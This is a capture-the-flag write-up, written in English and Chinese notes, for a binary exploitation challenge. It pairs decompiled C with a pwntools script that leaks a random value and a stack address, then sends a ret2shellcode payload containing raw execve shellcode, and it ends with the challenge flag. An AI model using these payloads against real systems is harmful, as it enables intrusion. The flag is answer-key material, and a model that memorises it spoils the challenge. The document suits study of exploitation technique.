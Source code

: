 # 1.0 Challenge
1. how to predict the rand ?
2. Python’s way of **getting the first byte as an integer**.
3. what position to format string
4. ret2libc or ret2shellcode
5. how to find buffer address
6. why need asm nop in shellcode

# 2.0 Analysis

CODE FLOW
write ur name
```
__int64 setuser()
{
  puts(
    "Welcome to the goose game.\n"
    "Here you have to guess a-priori, how many HONKS you will receive from a very angry goose.\n"
    "Godspeed.");
  printf("How shall we call you?\n> ");
  return __isoc99_scanf("%64s", username);
}
```

find random number -> next level
```
_BOOL8 guess()
{
  int v1; // [rsp+8h] [rbp-8h] BYREF
  int i; // [rsp+Ch] [rbp-4h]

  v1 = 0;
  i = 0;
  printf(
    "%s\n\nso %s. how many honks?",
    "\n"
    "                                                        _...--. \n"
    "                                        _____......----'     .' \n"
    "                                  _..-''                   .' \n"
    "                                .'                       ./ \n"
    "                        _.--._.'                       .' | \n"
    "                     .-'                           .-.'  / \n"
    "                   .'   _.-.                     .     ' \n"
    "                 .'  .'   .'    _    .-.        / `./  : \n"
    "               .'  .'   .'  .--' `.  |    |`. |     .' \n"
    "            _.'  .'   .' `.'       `-'    / |.'   .' \n"
    "         _.'  .-'   .'     `-.            `      .' \n"
    "       .'   .'    .'          `-.._ _ _ _ .-.    : \n"
    "      /    /o _.-'               .--'   .'      | \n"
    "    .'-.__..-'                  /..    .`    / .' \n"
    "  .'   . '                       /.'/.'     /  | \n"
    " `---'                                   _.'   ' \n"
    "                                       /.'    .' \n"
    "                                        /.'/.' \n",
    username);
  __isoc99_scanf("%d", &v1);
  putchar(10);
  for ( i = 0; i < nhonks; ++i )
    printf(" HONK ");
  putchar(10);
  return v1 == nhonks;
}
```

next level have more input 
```
int highscore()
{
  char buf[128]; // [rsp+0h] [rbp-170h] BYREF
  char s[128]; // [rsp+80h] [rbp-F0h] BYREF
  _BYTE v3[32]; // [rsp+100h] [rbp-70h] BYREF
  char format[80]; // [rsp+120h] [rbp-50h] BYREF

  strcpy(format, "wow %s you're so good. what message would you like to leave to the world?");
  printf("what's your name again?");
  __isoc99_scanf("%31s", v3);
  s[31] = 0;
  sprintf(s, format, v3);
  printf(s);
  read(0, buf, 0x400u);
  return printf("got it. bye now.");
}
```
# 3.0 Solution

前期准备
```
# -*- coding: utf-8 -*-
from pwn import*
context.log_level='debug'
context.arch='amd64'
context.os = "linux"
 
pc = "./chall_patched"

scripts = """
break *highscore+281
"""
 
if __name__ == '__main__':
    local = sys.argv[1]
    if local == '1':
        r= process(pc)
        elf = ELF(pc)
        libc = elf.libc
    else:
        r=remote("34.45.81.67",16004)
        elf = ELF(pc)
        libc = elf.libc
 
sa = lambda s,n : r.sendafter(s,n)
sla = lambda s,n : r.sendlineafter(s,n)
sl = lambda s : r.sendline(s)
sd = lambda s : r.send(s)
rc = lambda n : r.recv(n)
rl = lambda n : r.recv(n)
ru = lambda s : r.recvuntil(s)
ti = lambda: r.interactive()
lg = lambda s: log.info('\033[1;31;40m %s --> 0x%x \033[0m' % (s, eval(s)))
bhex = lambda b: int(b.decode(), 16)
dbg = lambda: gdb.attach(r)
dbgstart = lambda script=scripts: gdb.attach(r, gdbscript=script)
```

## 3.1 LEAK RAND 
因为scanf("%64s", username);
没有null terminate 所以如果我们刚刚好 64个 没有\x00
就会带出下一个byte which continue printing until it finds a `\x00`

所以 b'a' * 64 可以看到 多出一个 ) 
![[Pasted image 20250715004319.png]]

问题来了 怎样转成 int 
-> Python’s way of **getting the first byte as an integer**.
`guess = rc(1)[0]` 就ok 了 ????
第一次知道

```python
# dbgstart()
# p = b'a'*0x20
# leak random number  
sla("> ",b'a'*64)
ru(b'a'*64)
guess = rc(1)[0]
print("guess here >>",guess)
sla("honks?", str(guess).encode())
```

## 3.2 FORMAT STRING
what position to format string ????
为什么有 FS
![[Pasted image 20250715004658.png]]
这个很搞笑 我直接 %p
然后就有
![[Pasted image 20250715004719.png]]
然后就 gdb 找 这个是什么 tele xxxx
他是一个stack leak 没有什么用
这种时候 只能靠 offset 了
先把他变美美
```python
# format string
payload = b'%p %p %p %p %p %p %p %p'
sla("again?",payload)
ru("wow ")

# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
```

如果有leak 要想的是 ret2libc or ret2shellcode (NO NX)

ROP 我不会也找不到 libc 所以就算 shellcode
## 3.3 FIND BUFFER ADDRESS
how to find buffer address
开 dbgstart() 定位read 然后 send aaaabbbb
![[Pasted image 20250715005607.png]]
算offset 罢了 leak - buf = 0x150, stack leak - 0x150 就是 buf 了
```python
# leak info
stack_leak = bhex(rc(14))
print("leak >>>", hex(stack_leak))
# dbg()
sla("world?",b'aaaabbbb')
buf = 0x7ffd13969b20
leak = 0x7ffd13969c70
shellcode_offset =  leak - buf
shellcode_address = stack_leak - shellcode_offset
print("offset >>>",shellcode_offset)
print("shell addr >>>",hex(shellcode_address))
```

## 3.4 SHELLCODE FORMAT
rmb the ret2shellcode format 一定要记得有这个东西 
shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
我发现两个都可以用 然后 arch 要 amd64
```python
# shellcode + (offset  - len(shellcode)) + 8 + buffer address (where shellcode save)
shellcode = b'\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05'
# shellcode = asm(shellcraft.sh())

# self shellcode payload 
payload = shellcode
payload += b'a'*(0x170 + 8 -len(shellcode))
payload += p64(shellcode_address)

```
4. why need asm nop in shellcode -> 感觉是不需要 可是 有人用 就 ok ?
```
# w2 payload
# payload = asm('nop')*100
# payload += shellcode
# payload += b'a'*(0x170 +8 - 100 -len(shellcode))
# payload += p64(stack_leak-0x150)
```

## 3.5 FULL SCRIPT
![[c2 2.py]]
# 4.0 FLAG 
find / -name * flag*
cat /flag

L3AK{H0nk_m3_t0_th3_3nd_0f_l0v3}